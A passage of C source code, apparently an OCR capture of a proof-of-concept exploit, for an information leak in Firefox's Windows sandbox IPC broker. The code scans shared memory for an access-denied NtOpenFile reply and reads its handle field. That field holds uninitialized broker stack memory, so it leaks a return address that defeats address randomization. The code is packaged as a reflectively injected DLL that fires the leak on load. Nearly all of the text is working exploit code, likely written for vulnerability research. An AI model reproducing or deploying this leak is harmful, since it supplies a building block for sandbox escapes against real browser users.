 ```c
	// a STATUS_ACCESS_DENIED status
	// and an IPC_NTOPENFILE_TAG tag

	for (i = 0; i < (0x2000 / 4); ++i) {
		if (*sharedMemory == STATUS_ACCESS_DENIED) {
			memcpy(ret, sharedMemory - 4, sizeof(CrossCallReturn));
			if (ret->tag == IPC_NTOPENFILE_TAG) {

				// return what should be the handle but actually is
				// uninitialized broker stack memory

				return ret->handle;
			}
		}
		sharedMemory++;
	}
	return 0;
}

UINT32 testSandbox() {
	UINT32 leakedHandle = 0;

	// trigger the infoleak

	leakedHandle = leakFromSandbox();

	// now leakedHandle == firefox!sandbox::CrossCallParamsEx::GetParameterStr+0xbb
	// we just leaked uninitialized memory that use to contain a return address

	__asm int 3;
	return leakedHandle;
}

// Note: REFLECTIVEDLLINJECTION_VIA_LOADREMOTELIBRARYR and REFLECTIVEDLLINJECTION_CUSTOM_DLLMAIN are
// defined in the project properties (Properties->C++->Preprocessor) so as we can specify our own
// DllMain and use the LoadRemoteLibraryR() API to inject this DLL.

// You can use this value as a pseudo hinstDLL value (defined and set via ReflectiveLoader.c)
extern HINSTANCE hAppInstance;
//===============================================================================================//
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpReserved )
{
    BOOL bReturnValue = TRUE;
	switch( dwReason )
    {
		case DLL_QUERY_HMODULE:
			if( lpReserved != NULL )
				*(HMODULE *)lpReserved = hAppInstance;
			break;
		case DLL_PROCESS_ATTACH:
			hAppInstance = hinstDLL;
			testSandbox();
			break;
		case DLL_PROCESS_DETACH:
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
            break;
    }
	return bReturnValue;
}
```
